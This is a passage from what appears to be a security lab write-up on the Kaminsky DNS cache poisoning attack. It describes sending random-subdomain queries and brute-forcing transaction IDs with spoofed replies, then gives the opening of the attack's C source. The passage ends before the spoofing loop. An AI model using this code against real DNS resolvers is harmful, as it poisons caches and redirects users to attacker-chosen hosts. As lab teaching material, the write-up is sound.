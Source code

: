 So, in an infinite loop, we first generate a random prefix and set the random domain name of the DNS request that will trigger the DNS local server to perform an iterative search to try to fetch the IP address for that random domain and invoke the `send_dns_request` function that will simply send that packet. We also set the random domain for the DNS spoofed reply both in the question and answer field, as mentioned, and invoke the `send_dns_response` function. This function loops through all the 16-bit transaction id values and in each iteration set the different `example.com` legitimate name servers in the packet and send the two spoofed replies.

The final C script can be seen here:

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>

#define MAX_FILE_SIZE 1000000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);
void send_dns_request( );
void send_dns_response( );

int main()
{
  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("ip_req.bin", "rb");
  if (!f_req) {
     perror("Can't open 'ip_req.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("ip_resp.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'ip_resp.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";

```
